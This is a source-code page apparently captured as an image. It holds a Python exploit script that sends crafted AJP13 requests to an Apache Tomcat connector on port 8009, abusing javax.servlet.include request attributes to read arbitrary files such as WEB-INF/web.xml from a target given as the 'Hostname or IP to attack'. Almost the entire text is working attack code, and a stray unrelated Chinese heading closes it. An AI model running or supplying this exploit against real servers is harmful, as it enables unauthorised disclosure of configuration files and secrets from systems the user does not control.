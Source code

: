 ```python

    def perform_request(self, req_uri, headers={}, method='GET', user=None, password=None, attributes=[]):
        self.req_uri = req_uri
        self.forward_request = prepare_ajp_forward_request(self.target_host, self.req_uri, method=AjpForwardRequest.REQUEST_METHODS.get(method))
        print("Getting resource at ajp13://%s:%d%s" % (self.target_host, self.target_port, req_uri))
        if user is not None and password is not None:
            self.forward_request.request_headers['SC_REQ_AUTHORIZATION'] = "Basic " + ("%s:%s" % (user, password)).encode('base64').replace('\n', '')
        for h in headers:
            self.forward_request.request_headers[h] = headers[h]
        for a in attributes:
            self.forward_request.attributes.append(a)
        responses = self.forward_request.send_and_receive(self.socket, self.stream)
        if len(responses) == 0:
            return None, None
        snd_hdrs_res = responses[0]
        data_res = responses[1:-1]
        if len(data_res) == 0:
            print("No data in response. Headers:%s\n" % snd_hdrs_res.response_headers)
        return snd_hdrs_res, data_res

'''
javax.servlet.include.request_uri
javax.servlet.include.path_info
javax.servlet.include.servlet_path
'''

import argparse
parser = argparse.ArgumentParser()
parser.add_argument("target", type=str, help="Hostname or IP to attack")
parser.add_argument('-p', '--port', type=int, default=8009, help="AJP port to attack (default is 8009)")
parser.add_argument("-f", '--file', type=str, default='WEB-INF/web.xml', help="file path :(WEB-INF/web.xml)")
args = parser.parse_args()
t = Tomcat(args.target, args.port)
_,data = t.perform_request('/asdf.jsp',attributes=[
    {'name':'req_attribute','value':['javax.servlet.include.request_uri','/']},
    {'name':'req_attribute','value':['javax.servlet.include.path_info',args.file]},
    {'name':'req_attribute','value':['javax.servlet.include.servlet_path','/']},
    ])
print('----------------------------')
print("".join([d.data for d in data]))


```

## 掉进阿帕奇的工资
